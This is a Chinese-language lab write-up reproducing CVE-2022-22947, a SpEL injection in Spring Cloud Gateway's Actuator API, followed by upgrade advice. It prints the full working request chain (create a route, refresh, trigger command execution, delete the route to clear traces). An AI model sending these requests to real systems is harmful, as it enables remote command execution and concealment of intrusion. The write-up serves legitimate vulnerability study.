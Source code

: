 # Spring Cloud Gateway远程代码执行(CVE-2022-22947)



### 1.1、漏洞描述

Spring Cloud Gateway是Spring Cloud官方推出的第二代网关框架，取代Zuul网关。网关作为流量的，在微服务系统中有着非常作用，网关常见的功能有路由转发、权限校验、限流控制等作用。

Spring Cloud Gateway是Spring中的一个API网关。其`3.1.0`及`3.0.6`版本（包含）以前存在一处`SpEL表达式注入`漏洞，当攻击者可以访问Actuator API的情况下，将可以利用该漏洞执行任意命令。

### 1.2、漏洞等级

高

### 1.3、影响版本

Spring Cloud Gateway 3.1.x < 3.1.1

Spring Cloud Gateway < 3.0.7

旧的、不受支持的版本也会受到影响

### 1.4、漏洞复现

#### 1、基础环境

Path：Vulhub/spring/CVE-2022-22947

---

启动测试环境：

```bash
sudo docker-compose up -d
```

访问`http://your-ip:{8080}/`即可看到

![image-20240119145447818](imgs/image-20240119145447818.png)

![image-20240119145800615](imgs/image-20240119145800615.png)

#### 2、漏洞扫描

#### 3、漏洞验证

访问`/actuator`修改数据包为POST

构造并发送恶意的路由请求

```bash
POST /actuator/gateway/routes/hacktest HTTP/1.1
Host: 10.9.75.6:8080
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/97.0.4692.71 Safari/537.36
Connection: close
Content-Type: application/json
Content-Length: 329

{
  "id": "hacktest",
  "filters": [{
    "name": "AddResponseHeader",
    "args": {
      "name": "Result",
      "value": "#{new String(T(org.springframework.util.StreamUtils).copyToByteArray(T(java.lang.Runtime).getRuntime().exec(new String[]{\"id\"}).getInputStream()))}"
    }
  }],
  "uri": "http://example.com"
}
```

```
id 字段指定新路由的名称，必须全局唯一；
filters
	字段给这条路由指定若干个过滤器。过滤器用于对请求和响应进行修改；
	name 字段指定要添加的过滤器，这里添加了一个 AddResponseHeader 过滤器，用于 gateway 给客户端返回响应之前添加一个响应头；
	args.name 字段指定要添加的响应头；
	args.value 字段指定响应头的值。这里的值是要执行的 SPEL 表达式，用于执行 whoami 命令。注意需要将命令输出结尾的换行符去掉，否则过滤器执行时会抛出异常说「响应头的值不能以 \r 或 \n 结尾」；
	uri 字段指定将客户端请求转发到 http://example.com。
```



![image-20240119154556389](imgs/image-20240119154556389.png)

刷新网关

```bash
POST /actuator/gateway/refresh HTTP/1.1
Host: 10.9.75.6:8080
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/97.0.4692.71 Safari/537.36
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 0
```

![image-20240119154623352](imgs/image-20240119154623352.png)

触发我们添加的路由，命令执行

```bash
GET /actuator/gateway/routes/hacktest HTTP/1.1
Host: 10.9.75.6:8080
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/97.0.4692.71 Safari/537.36
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 0
```

![image-20240119154701252](imgs/image-20240119154701252.png)



痕迹清理，删除添加的路由

```bash
DELETE /actuator/gateway/routes/hacktest HTTP/1.1
Host: 10.9.75.6:8080
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/97.0.4692.71 Safari/537.36
Connection: close
```

删除后在刷新一下路由

### 1.6、修复建议

1）3.1.x用户应升级到3.1.1+；

2）3.0.x用户应升级到3.0.7+；

3）如果不需要Actuator功能，可以通过management.endpoint.gateway.enable：false配置将其禁用。